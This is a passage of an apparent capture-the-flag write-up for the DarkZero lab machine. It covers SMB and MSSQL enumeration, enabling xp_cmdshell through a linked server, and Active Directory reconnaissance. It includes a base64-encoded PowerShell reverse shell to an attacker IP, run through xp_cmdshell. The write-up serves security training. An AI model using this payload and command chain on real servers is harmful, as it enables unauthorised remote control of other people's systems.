  Lockout threshold: None                                                                                                                                                                                                                                                                                                                                                                                                                 
Domain logoff information:                                                                                                                                                                                                                                                                                                                                                                                                                
  Force logoff time: not set                                                                                                                                                                                                                                                                                                                                                                                                              

 ===========================================
|    Printers via RPC for 10.129.100.222    |
 ===========================================
[+] No printers available

Completed after 12.95 seconds
```

And at this point we finally added `darkzero.htb` and `DC01.darkzero.htb` to our `/etc/hosts`file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.100.222  darkzero.htb
10.129.100.222  DC01.darkzero.htb
```

### Enumeration of Port 445/TCP

Now we finally moved over to port `445/TCP` looking for some low-hanging fruits.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/DarkZero/files]
└─$ netexec smb 10.129.100.222 -u 'john.w' -p 'RFulUtONCOL!' --shares 
SMB         10.129.100.222  445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:False) 
SMB         10.129.100.222  445    DC01             [+] darkzero.htb\john.w:RFulUtONCOL! 
SMB         10.129.100.222  445    DC01             [*] Enumerated shares
SMB         10.129.100.222  445    DC01             Share           Permissions     Remark
SMB         10.129.100.222  445    DC01             -----           -----------     ------
SMB         10.129.100.222  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.100.222  445    DC01             C$                              Default share
SMB         10.129.100.222  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.100.222  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.100.222  445    DC01             SYSVOL          READ            Logon server share
```

#### RID Brute Force

And since `IPC$` was `readable` we performed a quick `RID Brute Force` to get a list of usernames for potential password spraying later. It is always good to have one in the pocket if needed.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/DarkZero/files]
└─$ netexec smb 10.129.100.222 -u 'john.w' -p 'RFulUtONCOL!' --rid-brute | grep 'SidTypeUser' | awk '{ print $6 }' | awk -F '\\' '{ print $2 }'
Administrator
Guest
krbtgt
DC01$
darkzero-ext$
john.w
```

## Initial Access
### Enumeration of Port 1433/TCP

Now we went to the juicy uncommon open port for `MSSQL`. Since the box creator provided us some `credentials` we tried to authenticate ourselves using those and luckily got in.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient 'john.w':'RFulUtONCOL!'@'dc01.darkzero.htb' -windows-auth                             
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)> 
```

As logical next step we tried to figure out what the environment was looking like and searched for eventually linked `MSSQL Instances` (to be honest, the logo was a pretty good indicator) and surprisingly we found another instance indeed. It was running on `DC02.darkzero.htb`.

```shell
SQL (darkzero\john.w  guest@master)> EXEC SP_LINKEDSERVERS;
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      

DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL
```

Then we moved on with the `enumeration` of the `instance` on `dc02.darkzero.htb`.

```shell
SQL (darkzero\john.w  guest@master)> EXEC('SELECT SYSTEM_USER') AT [DC02.darkzero.ext];
               
------------   
dc01_sql_svc
```

```shell
SQL (darkzero\john.w  guest@master)> EXEC('SELECT IS_SRVROLEMEMBER(''sysadmin'')') AT [DC02.darkzero.ext];
    
-   
1
```

### Code Execution on DC02

And with having the knowledge of being `sysadmin` on the second instance, we went for enabling `xp_cmdshell` to achieve `code execution`.

```shell
SQL (darkzero\john.w  guest@master)> EXEC('SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''') AT [DC02.darkzero.ext];
SQL (darkzero\john.w  guest@master)> EXEC('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];
```

```shell
INFO(DC02): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (darkzero\john.w  guest@master)> EXEC('EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

And it worked!

```shell
SQL (darkzero\john.w  guest@master)> EXEC('EXEC xp_cmdshell ''whoami''') AT [DC02.darkzero.ext];
output                 
--------------------   
darkzero-ext\svc_sql   

NULL
```

### Lateral Movement to DC02

Now we prepared a simple `reverse shell` payload and executed it through `xp_cmdshell` on `DC02`.

```shell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AOQA3ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

```shell
SQL (darkzero\john.w  guest@master)> EXEC('EXEC xp_cmdshell ''powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AOQA3ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==''') AT [DC02.darkzero.ext];
```

And boom, there it was - `Lateral Movement`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.97] from (UNKNOWN) [10.129.100.222] 53667

PS C:\Windows\system32>
```

## Enumeration (svc_sql)

Now after we got `initial access` or some say `foothold` on `DC02` we started the `enumeration` of our user `svc_sql`.

```cmd
PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name            SID                                         
==================== ============================================
darkzero-ext\svc_sql S-1-5-21-1969715525-31638512-2552845157-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                        
========================================== ================ =============================================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT SERVICE\MSSQLSERVER                     Well-known group S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003 Enabled by default, Enabled group, Group owner    
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Within `C:\` we found the `Policy_Backup.inf` which was not really helpful in particular but we put it in our notes for later.

```cmd
PS C:\> type Policy_Backup.inf
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordAge = 1
MaximumPasswordAge = 42
MinimumPasswordLength = 7
PasswordComplexity = 1
PasswordHistorySize = 24
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
NewAdministratorName = "Administrator"
NewGuestName = "Guest"
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
EnableAdminAccount = 1
EnableGuestAccount = 0
[Event Audit]
AuditSystemEvents = 0
AuditLogonEvents = 0
AuditObjectAccess = 0
AuditPrivilegeUse = 0
AuditPolicyChange = 0
AuditAccountManage = 0
AuditProcessTracking = 0
AuditDSAccess = 0
AuditAccountLogon = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Registry Values]
MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Setup\RecoveryConsole\SecurityLevel=4,0
MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Setup\RecoveryConsole\SetCommand=4,0
MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\CachedLogonsCount=1,"10"
MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ForceUnlockLogon=4,0
MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\PasswordExpiryWarning=4,5
MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ScRemoveOption=1,"0"
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin=4,5
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorUser=4,3
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableCAD=4,0
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\DontDisplayLastUserName=4,0
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\EnableInstallerDetection=4,1
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA=4,1
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\EnableSecureUIAPaths=4,1
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\EnableUIADesktopToggle=4,0
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\EnableVirtualization=4,1
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\LegalNoticeCaption=1,""
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\LegalNoticeText=7,
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\PromptOnSecureDesktop=4,1
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ScForceOption=4,0
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ShutdownWithoutLogon=4,0
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\UndockWithoutLogon=4,1
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ValidateAdminCodeSignatures=4,0
MACHINE\Software\Policies\Microsoft\Windows\Safer\CodeIdentifiers\AuthenticodeEnabled=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\AuditBaseObjects=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\CrashOnAuditFail=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\DisableDomainCreds=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\EveryoneIncludesAnonymous=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\FIPSAlgorithmPolicy\Enabled=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\ForceGuest=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\FullPrivilegeAuditing=3,0
MACHINE\System\CurrentControlSet\Control\Lsa\LimitBlankPasswordUse=4,1
MACHINE\System\CurrentControlSet\Control\Lsa\MSV1_0\NTLMMinClientSec=4,536870912
MACHINE\System\CurrentControlSet\Control\Lsa\MSV1_0\NTLMMinServerSec=4,536870912
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
MACHINE\System\CurrentControlSet\Control\Lsa\RestrictAnonymous=4,0
MACHINE\System\CurrentControlSet\Control\Lsa\RestrictAnonymousSAM=4,1
MACHINE\System\CurrentControlSet\Control\Print\Providers\LanMan Print Services\Servers\AddPrinterDrivers=4,1
MACHINE\System\CurrentControlSet\Control\SecurePipeServers\Winreg\AllowedExactPaths\Machine=7,System\CurrentControlSet\Control\ProductOptions,System\CurrentControlSet\Control\Server Applications,Software\Microsoft\Windows NT\CurrentVersion
MACHINE\System\CurrentControlSet\Control\SecurePipeServers\Winreg\AllowedPaths\Machine=7,System\CurrentControlSet\Control\Print\Printers,System\CurrentControlSet\Services\Eventlog,Software\Microsoft\OLAP Server,Software\Microsoft\Windows NT\CurrentVersion\Print,Software\Microsoft\Windows NT\CurrentVersion\Windows,System\CurrentControlSet\Control\ContentIndex,System\CurrentControlSet\Control\Terminal Server,System\CurrentControlSet\Control\Terminal Server\UserConfig,System\CurrentControlSet\Control\Terminal Server\DefaultUserConfiguration,Software\Microsoft\Windows NT\CurrentVersion\Perflib,System\CurrentControlSet\Services\SysmonLog,SYSTEM\CurrentControlSet\Services\CertSvc
MACHINE\System\CurrentControlSet\Control\Session Manager\Kernel\ObCaseInsensitive=4,1
MACHINE\System\CurrentControlSet\Control\Session Manager\Memory Management\ClearPageFileAtShutdown=4,0
MACHINE\System\CurrentControlSet\Control\Session Manager\ProtectionMode=4,1
MACHINE\System\CurrentControlSet\Control\Session Manager\SubSystems\optional=7,
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\AutoDisconnect=4,15
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableForcedLogOff=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\NullSessionPipes=7,,netlogon,samr,lsarpc
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RestrictNullSessAccess=4,1
MACHINE\System\CurrentControlSet\Services\LanmanWorkstation\Parameters\EnablePlainTextPassword=4,0
MACHINE\System\CurrentControlSet\Services\LanmanWorkstation\Parameters\EnableSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanmanWorkstation\Parameters\RequireSecuritySignature=4,0
MACHINE\System\CurrentControlSet\Services\LDAP\LDAPClientIntegrity=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\DisablePasswordChange=4,0
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\MaximumPasswordAge=4,30
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireSignOrSeal=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireStrongKey=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\SealSecureChannel=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\SignSecureChannel=4,1
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,1
[Privilege Rights]
SeNetworkLogonRight = *S-1-1-0,*S-1-5-11,*S-1-5-32-544,*S-1-5-32-554,*S-1-5-9
SeMachineAccountPrivilege = *S-1-5-11
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-549,*S-1-5-32-551
SeChangeNotifyPrivilege = *S-1-1-0,*S-1-5-11,*S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-32-554,*S-1-5-80-344959196-2060754871-2302487193-2804545603-1466107430,*S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003
SeSystemtimePrivilege = *S-1-5-19,*S-1-5-32-544,*S-1-5-32-549
SeCreatePagefilePrivilege = *S-1-5-32-544
SeDebugPrivilege = *S-1-5-32-544
SeRemoteShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-549
SeAuditPrivilege = *S-1-5-19,*S-1-5-20
SeIncreaseQuotaPrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-80-344959196-2060754871-2302487193-2804545603-1466107430,*S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003
SeIncreaseBasePriorityPrivilege = *S-1-5-32-544,*S-1-5-90-0
SeLoadDriverPrivilege = *S-1-5-32-544,*S-1-5-32-550
SeBatchLogonRight = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-559
SeServiceLogonRight = *S-1-5-20,svc_sql,SQLServer2005SQLBrowserUser$DC02,*S-1-5-80-0,*S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775,*S-1-5-80-344959196-2060754871-2302487193-2804545603-1466107430,*S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003
SeInteractiveLogonRight = *S-1-5-32-544,*S-1-5-32-548,*S-1-5-32-549,*S-1-5-32-550,*S-1-5-32-551,*S-1-5-9
SeSecurityPrivilege = *S-1-5-32-544
SeSystemEnvironmentPrivilege = *S-1-5-32-544
SeProfileSingleProcessPrivilege = *S-1-5-32-544
SeSystemProfilePrivilege = *S-1-5-32-544,*S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
SeAssignPrimaryTokenPrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-80-344959196-2060754871-2302487193-2804545603-1466107430,*S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-549,*S-1-5-32-551
SeShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-549,*S-1-5-32-550,*S-1-5-32-551
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
SeEnableDelegationPrivilege = *S-1-5-32-544
SeManageVolumePrivilege = *S-1-5-32-544
SeRemoteInteractiveLogonRight = *S-1-5-32-544
SeImpersonatePrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-6
SeCreateGlobalPrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-6
SeIncreaseWorkingSetPrivilege = *S-1-5-32-545
SeTimeZonePrivilege = *S-1-5-19,*S-1-5-32-544,*S-1-5-32-549
SeCreateSymbolicLinkPrivilege = *S-1-5-32-544
SeDelegateSessionUserImpersonatePrivilege = *S-1-5-32-544
[Version]
signature="$CHICAGO$"
Revision=1
```

The next idea was to `escalate` our `privileges` to `SYSTEM` using the `MSSQL Service` but unfortunately we were `not allowed` to `restart` the `service`.

```cmd
PS C:\> Get-Service | ForEach-Object {
    $svc = $_
    $acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$($svc.Name)" -ErrorAction SilentlyContinue
    if ($acl) {
        $acl.Access | Where-Object {$_.IdentityReference -like "*svc_sql*" -or $_.IdentityReference -like "*Domain Users*" -or $_.IdentityReference -like "*Authenticated Users*"}
    }
}PS C:\> 

RegistryRights    : -2147483648
AccessControlType : Allow
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : ContainerInherit
PropagationFlags  : InheritOnly

RegistryRights    : ReadKey
AccessControlType : Allow
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : Nones
```

```cmd
PS C:\> sc.exe sdshow MSSQLSERVER

D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
```

```cmd
PS C:\> sc.exe qc MSSQLSERVER
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: MSSQLSERVER
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Microsoft SQL Server\MSSQL16.MSSQLSERVER\MSSQL\Binn\sqlservr.exe" -sMSSQLSERVER
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : SQL Server (MSSQLSERVER)
        DEPENDENCIES       : KEYISO
        SERVICE_START_NAME : darkzero-ext\svc_sql
```

Since we had to deal with two `DCs` we checked the `Active Directory Trust` status and noticed that there was indeed a `Domain Trust` between `DC01` and `DC02` or `darkzero.htb` and `darkzero.ext`.

```cmd
PS C:\temp> Get-ADTrust -Filter *


Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=darkzero.htb,CN=System,DC=darkzero,DC=ext
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : darkzero.htb
ObjectClass             : trustedDomain
ObjectGUID              : 700b5e64-8ae9-4528-a968-26e2b4a44509
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=darkzero,DC=ext
Target                  : darkzero.htb
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           : 
TrustingPolicy          : 
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False
```

## Reconnaissance Part 2

### Active Directory Configuration Dump

This was a dead end for now so we stepped back a bit and used `bloodhound-python` to `dump` of the `configuration` of the `Active Directory` to switch perspective once more and to take a deeper look at some of the objects we were working on.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/DarkZero/files]
└─$ bloodhound-python -u 'john.w' -p 'RFulUtONCOL!' -d 'darkzero.htb' -ns 10.129.100.222 -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: darkzero.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.darkzero.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.darkzero.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 5 users
INFO: Found 56 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.darkzero.htb
INFO: Done in 00M 05S
```

Our main focus was to find a way back to `DC01` and to get `foothold` through `DC02` on which we already had a shell. So we searched through the `*.computers.json` and found something interesting. `DC01` was configured for `Unconstrained Delegation`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/DarkZero/files]
└─$ cat 20251005133830_computers.json 
{"data":[{"ObjectIdentifier": "S-1-5-21-1152179935-589108180-1989892463-1000", "AllowedToAct": [], "PrimaryGroupSID": "S-1-5-21-1152179935-589108180-1989892463-516", "LocalAdmins": {"Collected": true, "FailureReason": null, "Results": [{"ObjectIdentifier": "S-1-5-21-1152179935-589108180-1989892463-500", "ObjectType": "User"}, {"ObjectIdentifier": "S-1-5-21-1152179935-589108180-1989892463-519", "ObjectType": "Group"}, {"ObjectIdentifier": "S-1-5-21-1152179935-589108180-1989892463-512", "ObjectType": "Group"}]}, "PSRemoteUsers": {"Collected": true, "FailureReason": null, "Results": []}, "Properties": {"name": "DC01.DARKZERO.HTB", "domainsid": "S-1-5-21-1152179935-589108180-1989892463", "domain": "DARKZERO.HTB", "distinguishedname": "CN=DC01,OU=DOMAIN CONTROLLERS,DC=DARKZERO,DC=HTB", "unconstraineddelegation": true, "enabled": true, "trustedtoauth": false, "samaccountname": "DC01$", "haslaps": false, "lastlogon": 1759663368, "lastlogontimestamp": 1759429993, "pwdlastset": 1753789216, "whencreated": 1753789216, "serviceprincipalnames": ["Hyper-V Replica Service/DC01", "Hyper-V Replica Service/DC01.darkzero.htb", "Microsoft Virtual System Migration Service/DC01", "Microsoft Virtual System Migration Service/DC01.darkzero.htb", "Microsoft Virtual Console Service/DC01", "Microsoft Virtual Console Service/DC01.darkzero.htb", "Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC01.darkzero.htb", "ldap/DC01.darkzero.htb/ForestDnsZones.darkzero.htb", "ldap/DC01.darkzero.htb/DomainDnsZones.darkzero.htb", "DNS/DC01.darkzero.htb", "GC/DC01.darkzero.htb/darkzero.htb", "RestrictedKrbHost/DC01.darkzero.htb", "RestrictedKrbHost/DC01", "RPC/e78dbc40-94c4-44f5-8ee6-f8bb6b21f3dd._msdcs.darkzero.htb", "HOST/DC01/darkzero", "HOST/DC01.darkzero.htb/darkzero", "HOST/DC01", "HOST/DC01.darkzero.htb", "HOST/DC01.darkzero.htb/darkzero.htb", "E3514235-4B06-11D1-AB04-00C04FC2DCD2/e78dbc40-94c4-44f5-8ee6-f8bb6b21f3dd/darkzero.htb", "ldap/DC01/darkzero", "ldap/e78dbc40-94c4-44f5-8ee6-f8bb6b21f3dd._msdcs.darkzero.htb", "ldap/DC01.darkzero.htb/darkzero", "ldap/DC01", "ldap/DC01.darkzero.htb", "ldap/DC01.darkzero.htb/darkzero.htb"], "description": null, "operatingsystem": "Windows Server 2025 Datacenter", "sidhistory": []}, "RemoteDesktopUsers": {"Collected": true, "FailureReason": null, 